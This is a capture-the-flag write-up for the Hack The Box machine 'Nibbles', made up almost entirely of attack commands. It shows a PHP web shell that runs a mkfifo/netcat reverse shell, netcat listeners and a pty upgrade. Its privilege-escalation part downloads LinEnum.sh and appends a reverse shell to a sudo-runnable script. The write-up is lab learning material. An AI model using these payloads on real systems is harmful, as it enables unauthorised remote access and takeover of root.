 ```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc Votre_ip Port >/tmp/f"); ?>
```

```shell-session
NolanCarougeHTB@htb[/htb]$ nc -lvnp 9443
```

```python
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

# Nibbles - Privilege Escalation : 

We start a python server :
```shell-session
NolanCarougeHTB@htb[/htb]$ sudo python3 -m http.server 8080
```

Then we retrieve the LinEnum.sh file which will allow us to detect a potential flaw to become root :
```shell-session
wget http://<your ip>:8080/LinEnum.sh
```

We find that the monitor.sh file can be launched as root. We therefore modify it to have a reverse shell :
```shell-session
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 8443 >/tmp/f' | tee -a monitor.sh
```

Don't forget to launch the listener :
```shell-session
NolanCarougeHTB@htb[/htb]$ nc -lvnp 8443
```

We finish by executing this command :
```shell-session
 nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh 
```
